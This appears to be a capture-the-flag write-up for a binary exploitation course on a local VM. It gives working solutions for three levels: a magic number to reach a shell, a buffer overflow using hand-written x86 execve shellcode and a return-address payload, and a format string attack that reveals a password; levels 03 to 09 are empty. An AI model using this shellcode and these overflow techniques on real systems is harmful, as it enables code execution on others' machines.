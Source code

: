 ## Some commands

```shell
./scripts/startVM.sh
export OR_HOST=192.168.1.70
export OR_PORT=4242

./scripts/installUtils.sh

ssh -q level00@$OR_HOST -p $OR_PORT
sshpass -f level00/flag ssh level1@$OR_HOST -p $OR_PORT

scp -q -P $OR_PORT -r <FILE> level00@$OR_HOST:/tmp/<FILE>
```

---

## Level00 - Disassemble and find the solution

### Resolve

Just put `5276` (`0x149c`) in the scanf prompt. Then the shell is executed.

```shell
(echo 5276; cat) | ~/level00
```

---

## Level01 - Buffer overflow

The second prompt `fgets` takes 0x64 bytes, but the buffer can only takes 0x48

### Resolve

```shell
b*main+169
run < <(python -c 'print "dat_wil\n" + "A" * 0x48')
x/24x $esp+0x1c
p 0x48 + 8
$3 = 0x50 # => offset

export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level01
  0xffffd755

python -c 'print "dat_wil\n" + "A" * 0x50 + "\x55\xd7\xff\xff"' > /tmp/exploit01

cat /tmp/exploit01 - | ~/level01
```

---

## Level02 - 64 bits - Format string attack

printf prints directly the variable `username`

We don't know exactly the position of the the flag, we will use a format string attack to find the flag. We will test several position using a loop

### Resolve

```shell
./script.sh

(echo -e "AAA\nHh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"; cat) | ~/level02
```

---

## Level03 -

### Resolve

```shell

```

---

## Level04 -

### Resolve

```shell

```

---

## Level05 -

### Resolve

```shell

```

---

## Level06 -

### Resolve

```shell

```

---

## Level07 -

### Resolve

```shell

```

---

## Level08 -

### Resolve

```shell

```

---

## Level09 -

### Resolve

```shell

```

---
